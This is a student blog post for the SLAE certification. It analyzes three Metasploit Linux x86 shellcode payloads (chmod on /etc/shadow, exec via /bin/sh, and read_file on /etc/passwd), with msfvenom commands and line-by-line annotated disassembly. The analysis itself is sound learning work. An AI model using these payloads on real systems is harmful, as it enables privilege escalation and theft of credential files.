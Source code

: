 # 5. Shellcode Analysis

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to analyze three payloads from the Metasploit Framework for Linux on the x86 architecture.

## Analysis of linux/x86/chmod

The linux/x86/chmod payload will change the file permissions on a specified file on the local system. With the default arguments, it will give everyone read and write permissions (0666) on the ``/etc/shadow`` file:

```sh
msfvenom -p linux/x86/chmod | ndisasm -b 32 -

00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80C000000        call 0x16
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popa
00000012  646F              fs outsd
00000014  7700              ja 0x16
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
```

The first part of the shellcode sets up the call to the [chmod](https://man7.org/linux/man-pages/man2/chmod.2.html) system call:

```nasm
; int chmod(const char *pathname, mode_t mode): syscall 0xf
;   chmod("/etc/shadow", 0666)
00000000  99                cdq              ; edx = 0x00000000 if eax >= 0, edx = 0xFFFFFFFF if eax < 0
00000001  6A0F              push byte +0xf
00000003  58                pop eax          ; eax = 15
00000004  52                push edx         ; push 0x00000000/0xFFFFFFFF (?)
00000005  E80C000000        call 0x16        ; push address of "/etc/shadow"
0000000A  "/etc/shadow"
00000016  5B                pop ebx          ; ebx = "/etc/shadow"
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx          ; ecx = 0666
0000001D  CD80              int 0x80         ; perform syscall
```

The second part uses the [exit](https://man7.org/linux/man-pages/man2/exit.2.html) system call to terminate the process:

```nasm
; void _exit(int status)
;   _exit(whatever)
0000001F  6A01              push byte +0x1
00000021  58                pop eax          ; eax = 1
00000022  CD80              int 0x80         ; perform syscall
```

## Analysis of linux/x86/exec

The linux/x86/exec payload will execute a specified command string. For this analysis, the payload is generated with the command string "ls":

```sh
msfvenom -p linux/x86/exec CMD=ls | ndisasm -b 32 -

00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
0000000B  682F736800        push dword 0x68732f
00000010  682F62696E        push dword 0x6e69622f
00000015  89E3              mov ebx,esp
00000017  52                push edx
00000018  E803000000        call 0x20
0000001D  6C                insb
0000001E  7300              jnc 0x20
00000020  57                push edi
00000021  53                push ebx
00000022  89E1              mov ecx,esp
00000024  CD80              int 0x80
```

The shellcode uses the [execve](https://man7.org/linux/man-pages/man2/execve.2.html) system call to execute a command with ``/bin/sh -c [COMMAND]``:

```nasm
; int execve(const char *pathname, char *const argv[], char *const envp[]): syscall 0xb
;   execve("/bin/sh", ["/bin/sh", "-c", "ls", 0], 0)
00000000  6A0B              push byte +0xb
00000002  58                pop eax               ; eax = 11
00000003  99                cdq                   ; edx = 0
00000004  52                push edx              ; push 0 (string null-terminator)
00000005  66682D63          push word 0x632d      ; push "-c" reversed
00000009  89E7              mov edi,esp           ; edi = "-c"
0000000B  682F736800        push dword 0x68732f   ; push "/sh" reversed
00000010  682F62696E        push dword 0x6e69622f ; push "/bin" reversed
00000015  89E3              mov ebx,esp           ; ebx = "/bin/sh"
00000017  52                push edx              ; push 0
00000018  E803000000        call 0x20             ; push address of "ls"
0000001D  "ls"
00000020  57                push edi              ; push address of "-c"
00000021  53                push ebx              ; push address of "/bin/sh"
00000022  89E1              mov ecx,esp           ; ecx = ["/bin/sh", "-c", "ls", 0]
00000024  CD80              int 0x80              ; perform syscall
```

## Analysis of linux/x86/read_file

The linux/x86/read_file payload will read a specified file and write it to a file descriptor (standard output by default). For this analysis, the payload is generated with the file path "/etc/passwd":

```sh
msfvenom -p linux/x86/read_file PATH=/etc/passwd | ndisasm -b 32 -

00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  00                db 0x00
```

The file is opened with the [open](https://man7.org/linux/man-pages/man2/open.2.html) system call:

```nasm
; int open(const char *pathname, int flags): syscall 0x5
;   fd = open("/etc/passwd", 0)
00000000  EB36              jmp short 0x38 ; push "/etc/passwd"
00000002  B805000000        mov eax,0x5    ; eax = 5
00000007  5B                pop ebx        ; ebx = "/etc/passwd"
00000008  31C9              xor ecx,ecx    ; ecx = 0
0000000A  CD80              int 0x80       ; perform syscall
...
00000038  E8C5FFFFFF        call 0x2
0000003D  "/etc/passwd"
```
The file data is then read with the [read](https://man7.org/linux/man-pages/man2/read.2.html) system call and stored on the stack:

```nasm
; ssize_t read(int fd, void *buf, size_t count): syscall 0x3
;   bytes_read = read(fd, stack, 4096)
0000000C  89C3              mov ebx,eax    ; ebx = file descriptor
0000000E  B803000000        mov eax,0x3    ; eax = 3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi    ; ecx = top of stack
00000017  BA00100000        mov edx,0x1000 ; edx = 4096
0000001C  CD80              int 0x80       ; perform syscall
```

The data is then written to standard output with the [write](https://man7.org/linux/man-pages/man2/write.2.html) system call:

```nasm
; ssize_t write(int fd, const void *buf, size_t count): syscall 0x4
;   write(stdout, stack, bytes_read)
0000001E  89C2              mov edx,eax    ; edx = number of bytes read
00000020  B804000000        mov eax,0x4    ; eax = 4
00000025  BB01000000        mov ebx,0x1    ; ebx = stdout
0000002A  CD80              int 0x80       ; perform syscall
```

Finally, the process is terminated with the [exit](https://man7.org/linux/man-pages/man2/exit.2.html) system call:

```nasm
; void _exit(int status)
;   _exit(0)
0000002C  B801000000        mov eax,0x1    ; eax = 1
00000031  BB00000000        mov ebx,0x0    ; ebx = 0
00000036  CD80              int 0x80       ; perform syscall
```
